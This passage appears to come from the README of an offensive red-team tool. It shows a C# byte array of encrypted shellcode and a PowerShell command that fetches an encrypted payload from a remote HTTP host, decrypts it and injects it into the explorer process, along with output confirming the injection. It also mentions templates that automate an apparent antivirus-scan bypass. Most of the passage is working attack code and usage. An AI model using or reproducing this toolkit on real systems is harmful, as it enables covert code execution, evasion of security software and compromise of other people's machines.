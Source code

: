 ```
byte[] sc = new byte[512] { 0x6e, 0x95, 0x8d, 0x24, 0x92, 0xb8, 0x4e, 0x08, 0xf3, 0x24, 0x0c, 0xcd, 0xcc, 0xee, 0x19, 0x62, 0x54, 0x13, 0xe1, 0x2e, 0xf9, 0xd4, 0xec, 0x2d, 0x5d, 0xd6, 0x31, 0x6e, 0xc6, 0xc2, 0x22, 0xd9, 0x09, 0x6a, 0x81, 0x55, 0xd8, 0xdb, 0x14, 0x65, 0x90, 0x71, 0xdb, 0xcc, 0xe0, 0x86, 0x0e, 0x0e, 0xaa, 0xaa, 0xb3, 0xa9, 0x5c, 0xf4, 0x3b, 0x1f, 0x50, 0x6d, 0x01, 0x1d, 0xac, 0xe4, 0x46, 0x0d, 0x22, 0x80, 0x86, 0x2d, 0x95, 0x64, 0x76, 0x6b, 0x60, 0x48, 0x7f, 0x4e, 0x8d, 0xa3, 0x24, 0xc5, 0x81, 0x82, 0x5b, 0x6b, 0xb7, 0x0b, 0x1d, 0x15, 0x4f, 0x8c, 0xc3, 0x0c, 0x8d, 0xc7, 0x59, 0x9f, 0xfc, 0x09, 0x9e, 0x84, 0xb4, 0xa4, 0x72, 0xad, 0xf9, 0x89, 0x25, 0xb0, 0x10, 0xda, 0x3a, 0x27, 0x44, 0x0c, 0x96, 0x53, 0x55, 0xbd, 0x8c, 0x6b, 0x94, 0x82, 0x37, 0x7a, 0x3f, 0x4e, 0x04, 0x53, 0xfe, 0x27, 0x0e, 0x77, 0x30, 0x28, 0xdd, 0x67, 0x94, 0x09, 0x6d, 0x3e, 0x4a, 0x51, 0x87, 0x97, 0x32, 0x0c, 0x86, 0x88, 0xe5, 0x42, 0xaf, 0x03, 0xfa, 0x4a, 0x7b, 0x56, 0xa3, 0xa4, 0xb6, 0x9c, 0x4f, 0x8f, 0xb5, 0xe7, 0xa6, 0x20, 0x1c, 0x36, 0xca, 0x05, 0x4a, 0x8d, 0x28, 0x03, 0x49, 0x39, 0x06, 0x9b, 0xd9, 0xf8, 0x14, 0xad, 0xcc, 0x19, 0x84, 0xcc, 0x6e, 0xed, 0x51, 0x49, 0x48, 0xd1, 0x65, 0x60, 0x91, 0x42, 0xfa, 0x0f, 0x0f, 0x70, 0xca, 0x62, 0x1f, 0xd0, 0x29, 0xe1, 0x44, 0x41, 0x7c, 0xe4, 0x36, 0x84, 0xb4, 0xba, 0x39, 0xbd, 0x19, 0xbb, 0xf0, 0xcb, 0xfb, 0xf3, 0x24, 0x97, 0xf0, 0xa1, 0xf2, 0xc8, 0x60, 0x21, 0x79, 0x0e, 0xf4, 0x34, 0x54, 0xa1, 0x5e, 0xb2, 0x85, 0xdc, 0x92, 0xb1, 0xd8, 0xc9, 0x1d, 0xd1, 0x49, 0x8b, 0x3b, 0x05, 0xc3, 0x2f, 0x27, 0xa0, 0xc8, 0xeb, 0x9a, 0x01, 0x3f, 0xda, 0x13, 0x53, 0x85, 0xa4, 0x3c, 0xa2, 0xa6, 0x63, 0xa5, 0x43, 0x43, 0x1b, 0x8f, 0x55, 0xdc, 0x52, 0xa3, 0x77, 0x1c, 0x43, 0x37, 0x5c, 0xea, 0xf5, 0x9b, 0xe8, 0x1f, 0x91, 0x7f, 0xc9, 0x84, 0xaf, 0x1b, 0xd6, 0x20, 0x78, 0xe1, 0x85, 0x22, 0x11, 0x6d, 0xf7, 0x56, 0xc2, 0x6e, 0xf9, 0x77, 0xec, 0x04, 0x69, 0x1c, 0xf7, 0xc7, 0x30, 0xd9, 0x6a, 0x69, 0xaa, 0x20, 0xa0, 0x6d, 0x80, 0x8e, 0xf7, 0x2f, 0x08, 0x90, 0x8a, 0xf0, 0xb9, 0x2a, 0xb2, 0x91, 0x67, 0x8c, 0xdc, 0xce, 0x32, 0x64, 0x0f, 0x8d, 0x13, 0x1f, 0x2e, 0xa7, 0x12, 0xf0, 0x95, 0xa0, 0x66, 0x43, 0xae, 0x33, 0xb4, 0x9c, 0x5c, 0xcd, 0xef, 0xaa, 0xf1, 0x0d, 0x88, 0x9f, 0xdf, 0xd0, 0xb4, 0x4b, 0xc6, 0x09, 0x39, 0x41, 0xc7, 0xf8, 0x67, 0x99, 0xfb, 0x1a, 0xb6, 0xb9, 0x8e, 0x52, 0x3a, 0xd7, 0xd2, 0xca, 0xe9, 0x58, 0x98, 0x05, 0x1f, 0xc4, 0x0a, 0xbf, 0x13, 0x5b, 0x26, 0x4a, 0xab, 0x51, 0xbb, 0x0b, 0x28, 0x3d, 0xc7, 0x93, 0x5b, 0x33, 0x5a, 0x67, 0x5d, 0xcc, 0xf5, 0xe9, 0x43, 0x80, 0x36, 0x7d, 0x23, 0x6b, 0x26, 0x35, 0xde, 0x0e, 0xff, 0xd3, 0xc7, 0x3f, 0x45, 0xbc, 0x14, 0xe2, 0xdc, 0x89, 0x2e, 0xa6, 0xc4, 0xa5, 0x44, 0xf7, 0xc2, 0x90, 0x3a, 0x6e, 0x4b, 0x53, 0xf2, 0xe2, 0xb4, 0x09, 0xac, 0x77, 0xbc, 0xed, 0xf7, 0xe3, 0xc3, 0xd1, 0x77, 0x9e, 0x22, 0x1a, 0xfb, 0x0b, 0x96, 0x4b, 0x40, 0x74, 0x7e, 0x76, 0x0a, 0x77, 0x78, 0xc2, 0x35, 0x63, 0x32, 0x3f, 0xa1, 0xe3, 0x4b, 0x2d, 0x69, 0xda, 0x87, 0x9c, 0x76, 0x91, 0x3c, 0x52, 0xc4, 0x4f, 0xaf, 0x8d, 0xd0, 0xd6, 0xde, 0x36, 0xac, 0x8c, 0x04, 0x63, 0x26, 0x3d, 0xa8, 0x07, 0x6a, 0xa8, 0xb9, 0xe6, 0x6f, 0x7e, 0xfd };
```

## 4. Decrypt and run sample payload file

Decrypt, inject and run the generated payload, loading from a local filesystem or a remote HTTP host.
Usage: ex_prog(string password, bool Encrypt, bool Decrypt, string url = "", string localBinPath = "", string outFile = "", string rP = "")

```
PS > [Rem_proc_inj.execute_program]::ex_prog("SUPERSECRETPASSWORD",$false,$true,"http://192.168.252.5/msftest.bin_enc","","","explorer")
[*] Injecting & Executing SC of size 510 into process explorer
[*] Memory for injecting shellcode allocated at 0x20250624.
```

# Automating loading ASBBypass and Rem_proc_inj using Powershell scripts
Combining above steps into the Powershell templates as used in folder "PSScripts", using the "Templates" version.
